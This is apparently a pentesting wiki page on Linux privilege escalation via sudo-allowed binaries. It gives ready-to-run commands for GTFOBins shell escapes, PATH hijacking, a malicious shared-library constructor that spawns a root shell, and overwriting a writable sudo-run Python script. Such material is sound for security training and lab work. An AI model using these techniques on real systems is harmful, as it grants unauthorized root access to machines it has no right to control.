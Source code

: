 # Sudo Binaries

## Theory

On this page, we speak about vulnerabilities within a sudo binary/script itself.  Custom or known binaries/scripts may be exploited and allow us to subvert sudo's intended functionality.

## Practice

### Known Sudo Binaries Exploits

{% tabs %}
{% tab title="GTFOBins" %}
If the binary is allowed to run as  `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

If you find that a binary can be run as sudo, you can check on [GTFOBins](https://gtfobins.github.io/) for known exploits.

```bash
$ sudo -l

User demo may run the following commands on crashlab:
    (root): /usr/bin/awk
```
{% endtab %}

{% tab title="Example" %}
If you can run a binary with sudo rights, you may want to have look at [GTFOBins](https://gtfobins.github.io/), a curated list of Unix binaries that can be exploited to bypass local security restrictions. In this case with `awk`, we can spawn a shell with following commands:

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```
{% endtab %}
{% endtabs %}

### No Command Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a **sudo** binary/script executes another command **without specifying the path.** We can abuse it and get a privilege escalation. &#x20;

{% hint style="danger" %}
Note that **`env_reset`** and **`secure_path`**  should not be set !
{% endhint %}

You may use `strings` to spot other binaries calls, or do some reverse engineering on the **sudo** binary.

```bash
$ sudo -l
User demo may run the following commands on crashlab:
    (root): /opt/bin/the-sudo-bin

$ strings ./the-sudo-bin
...
find
...
```
{% endtab %}

{% tab title="Exploit" %}
We can create a malicious executable with the same name as the one called by the s**udo** binary.

```bash
echo '/bin/bash -p' > /tmp/find
chmod +x /tmp/find
```

\
Then, set the **PATH** env variable before executing the Sudo binary.

```bash
#Sudo with modified PATH
export PATH=/tmp:$PATH 
./the-sudo-bin
```
{% endtab %}
{% endtabs %}

### Shared Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
If you find some binary with **Sudo** permissions, you can check if all the **.so** files are **loaded correctly.**&#x20;

```bash
strace the-sudo-bin 2>&1 | grep -i -E "open|access|no such file"
```

You also could check if the **Sudo** binary is loading a library from a folder **where we can write**:

```bash
# Lets find a Sudo using a non-standard library
ldd the-sudo-bin
something.so => /lib/x86_64-linux-gnu/something.so

# The Sudo also loads libraries from a custom location where we can write
readelf -d the-sudo-bin | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

Alternatively, you could use the `strings` command to find used shared library

```bash
strings ./the-sudo-bin | grep -i '*.so*'
```
{% endtab %}

{% tab title="Exploit" %}
For example, if you find that the **Sudo** binary **doesn't** **load correctly** _`/home/user/.config/libcalc.so`_ or that you can overwrite it, you can exploit it.

Write a malicious shared library

```c
//Saved to /home/user/.config/libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        printf("Hello from the bad library");
        //setreSudo(0,0,0);
        setuid(0);
        setgid(0);
        system("/bin/bash -p");
}
```

Compile it

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

Execute the Sudo binary

```bash
sudo the-sudo-bin
```

{% hint style="info" %}
If you get an error such as

```shell-session
./Sudo_bin: symbol lookup error: ./Sudo_bin: undefined symbol: a_function_name
```

that means that the library you have generated need to have a function called `a_function_name`.
{% endhint %}


{% endtab %}
{% endtabs %}

### Weak File Permissions

{% tabs %}
{% tab title="Enumerate" %}
If you find some binary/script with **Sudo** permissions, you could check if you have enought rights to overwrite it. If so, you can replace it by a malicious one.

```bash
sudo -l
        (root) NOPASSWD: /usr/bin/python3 /home/<username>/example.py
```

Check permissions:

```bash
ls -la /home/<username>/
ls -la /home/<username>/example.py
```
{% endtab %}

{% tab title="Exploit" %}
If the python script is **under a directory that you own**, or if you have **direct write access** on it. We can remove the script and create a new one with the same name.

```bash
rm -rf /home/<username>/example.py
touch /home/<username>/example.py
```

We can insert arbitrary code in the new script. For example,

```python
import os;os.system('/bin/bash')
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#sudo" %}

{% embed url="https://tryhackme.com/room/linuxprivescarena" %}

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/" %}
